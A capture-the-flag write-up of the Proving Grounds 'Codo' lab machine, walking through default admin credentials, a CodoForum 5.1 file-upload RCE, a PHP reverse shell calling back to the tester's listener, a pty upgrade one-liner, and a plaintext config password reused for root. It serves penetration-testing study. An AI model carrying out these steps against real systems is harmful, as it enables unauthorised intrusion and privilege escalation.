 ```yaml
---
title: "Proving grounds Play: Codo"
layout: post
date: 2023-10-04 02:00
categories: writeup
---
```


Proving grounds Practice - Codo CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.211.23/

![img](/assets/images/CTF/Proving_Grounds/Codo/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Codo/web2.png)

Login to the admin dashboard using credentials `admin:admin`.

![img](/assets/images/CTF/Proving_Grounds/Codo/web3.png)

**Codoforum Current version: V.5.1.105**

The version is vulnerable to [CodoForum v5.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50978).

The exploit is not working properly so manual exploitation is necessarily required to obtain the initial foothold.

## Initial Foothold

**Code Explained**

```py
loginURL = options.target + '/admin/?page=login'
globalSettings = options.target + '/admin/index.php?page=config'
payloadURL = options.target + '/sites/default/assets/img/attachments/'
```

- As per the code the user has to login as admin.
- And navigate to `/admin/index.php?page=config`.
- Upload reverse shell.
- Trigger reverse shell at `/sites/default/assets/img/attachments/` + `uploaded_file_name`.

```py
    print("[*] Checking webshell status and executing...")
    payloadExec = session.get(payloadURL + randomFileName + '.php', proxies=proxy)
```

Upload pentest monkey PHP reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Codo/rev_shell.png)

Trigger reverse shell at.

`http://192.168.211.23/sites/default/assets/img/attachments/shell.php`.

```sh
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.211.23] 55984
Linux codo 5.4.0-150-generic #167-Ubuntu SMP Mon May 15 17:35:05 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:02:20 up 19 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@codo:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

The script will find the password configured in the PHP config files in the system. 

```sh
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123',
```

Use the password to login to root.

```sh
www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).